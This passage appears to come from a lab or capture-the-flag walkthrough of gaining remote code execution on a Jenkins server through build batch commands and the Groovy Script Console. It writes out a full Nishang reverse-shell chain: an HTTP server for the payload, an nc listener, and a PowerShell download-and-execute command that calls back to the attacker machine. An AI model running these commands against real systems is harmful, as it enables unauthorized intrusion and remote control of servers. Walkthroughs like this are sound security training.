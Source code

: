 The Jenkins documentation gives me two possible ways of Remote Code Execution:

1. Click "Project" to get into the prebuilt project, then click  "Configure" on the left. Scrolling down, there is a 
window that allows for executing Windows batch commands.

| ![Windows batch commands window in project configuration](/_static/images/build.png)
|:--:|
| Windows batch commands window in project configuration |

Test with: `whoami`.

2. Jenkins also comes with a "Script Console" administrative tool, which allows authenticated users to run scripts 
using Apache [Groovy](http://www.groovy-lang.org/), a Java-syntax-compatible object-oriented programming language 
for the Java platform. On the mainpage on the left, click on "Manage Jenkins", scroll down below the warnings, 
and click [script console](https://www.jenkins.io/doc/book/managing/script-console/) from the list.

| [![Script console](/_static/images/script-console.png)](https://www.jenkins.io/doc/book/managing/script-console/) |
|:--:|
| [https://www.jenkins.io/doc/book/managing/script-console/](https://www.jenkins.io/doc/book/managing/script-console/) |

Test using `print` to display the output of the command: `print "whoami".execute().text`.

A PowerShell command to execute a reverse shell might work in both. `Nishang` contains a lot of reverse shell payloads 
and more.

If on Kali, copy `Invoke-PowershellTcp.ps1` from `/usr/share/nishang/Shells`. If not on Kali, 
[download Invoke-PowershellTcp.ps1 from Gihub](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1).

I decided not to copy and just host the entire Nishang Shells directory, by starting a server in the 
`/usr/share/nishang/Shells` directory:

	# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

Start a listener:

    # nc -lvnp 4443
    Ncat: Version 7.92 ( https://nmap.org/ncat )

Option 1: Execute in windows batch command window:

```text
powershell iex (New-Object Net.WebClient).DownloadString(‘http://<IP address attack machine>:80/Invoke-PowerShellTcp.ps1’);Invoke-PowerShellTcp -Reverse -IPAddress <IP address attack machine> -Port 443
```
